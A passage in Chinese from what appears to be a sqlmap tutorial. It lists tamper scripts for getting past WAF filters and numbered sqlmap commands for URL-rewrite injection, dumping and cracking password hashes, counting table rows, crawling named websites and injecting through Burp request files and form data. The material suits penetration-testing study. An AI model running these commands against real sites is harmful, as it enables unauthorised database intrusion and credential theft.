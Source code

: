 > securesphere.py追加特制的字符串
>
> versionedmorekeywords.py注释绕过
>
> space2comment.py替换空格字符串(‘‘) 使用注释‘/**/’
>
> halfversionedmorekeywords.py关键字前加注释

### 2. URL重写SQL注入测试

value1为测试参数，加“*”即可，sqlmap将会测试value1的位置是否可注入。

sqlmap.py -u”http://targeturl/param1/value1*/param2/value2/”

### 3. 列举并破解密码哈希值

 当前用户有权限读取包含用户密码的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。

sqlmap.py -u”http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1” –passwords -v1

### 4. 获取表中的数据个数

sqlmap.py -u”http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1” –count -Dtestdb

### 5.对网站secbang.com进行漏洞爬去

sqlmap.py -u “[http://www.secbang.com](http://www.secbang.com/)“–batch –crawl=3

### 6.基于布尔SQL注入预估时间

sqlmap.py -u “http://192.168.136.131/sqlmap/oracle/get_int_bool.php?id=1“-b –eta

### 7.使用hex避免字符编码导致数据丢失

sqlmap.py -u “http://192.168.48.130/pgsql/get_int.php?id=1” –banner –hex -v 3 –parse-errors

### 8.模拟测试手机环境站点

python sqlmap.py -u”http://www.target.com/vuln.php?id=1” –mobile

### 9.智能判断测试

sqlmap.py -u “http://www.antian365.com/info.php?id=1“–batch –smart

### 10.结合burpsuite进行注入

（1）burpsuite抓包，需要设置burpsuite记录请求日志

sqlmap.py -r burpsuite抓包.txt

（2）指定表单注入

sqlmap.py -u URL –data“username=a&password=a”

### 11.sqlmap自动填写表单注入
